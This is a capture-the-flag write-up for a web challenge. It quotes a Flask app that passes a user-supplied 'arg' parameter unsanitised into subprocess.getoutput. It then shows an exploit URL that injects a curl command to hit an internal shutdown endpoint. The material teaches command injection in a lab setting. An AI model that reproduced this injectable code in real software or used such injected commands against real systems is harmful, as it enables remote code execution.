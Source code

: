 # Introduction
This is a rather simple web challange to get familliar with how to find paths and look into soruce code for how a function works

## Challange Discription

Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?
https://uscybercombine-s4-control-panel.chals.io/

File : [Source_Code](https://github.com/salarsalimi/CTF/tree/main/US%20Cyber%20Open%20Season%20IV/resources/control-panel/control-panel)

## Webpage 

After openning the dashboard we see it's a simple page that has 4 links each one making a request to same URL with a parameter

![](../assets/Control_Panel_1.PNG)

For example when we open first link we are sending this parameter like bellow:

![](../assets/Control_Panel_2.PNG)




## Step 1

End link seems to be important so it's time to take a look at source code to see how our parameter is working
From code bellow we see that the final link must be used with second parameter named **arg**

```python
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```



## Step 2

We take a look at getoutput defenition in subprocces library to see how it works
- it seems like it is executing our commands 

![](../assets/Control_Panel_3.PNG)

So basically we have RCE but what command to execute ? 

## Step 3

Now that we know what parameter to use and that it has RCE but we must know what to give it too !!
For this we look in destroyer.py and see this lines of code in it:

```python
elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
```

So we must call this url
> http://localhost:3000/shutdown 

We achive this with this url call :
> https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=curl%20-s%20localhost:3000/shutdown

![](../assets/Control_Panel_4.PNG)